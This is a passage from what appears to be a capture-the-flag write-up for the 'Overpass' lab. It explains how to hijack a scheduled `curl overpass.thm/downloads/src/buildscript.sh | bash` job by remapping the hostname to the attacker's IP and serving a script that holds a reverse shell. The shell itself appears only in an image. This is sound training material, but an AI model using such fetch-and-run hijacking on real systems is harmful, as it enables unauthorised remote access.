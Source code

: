 * We have to change the IP address that is mapped to `overpass.thm` to our IP address so that when the `curl overpass.thm/downloads/src/buildscript.sh | bash` command is run, it will run the file hosted by us.

<figure><img src="../../.gitbook/assets/9 (12).png" alt=""><figcaption></figcaption></figure>

* Now we have to create the necessary directories inside `/var/www/html/`.

```
$ mkdir downloads                
$ cd downloads         
$ mkdir src      
$ cd src      
```

* Now let's create a `buildscript.sh` file.
* We need to include a reverse shell in it.

<figure><img src="../../.gitbook/assets/10 (9).png" alt=""><figcaption></figcaption></figure>
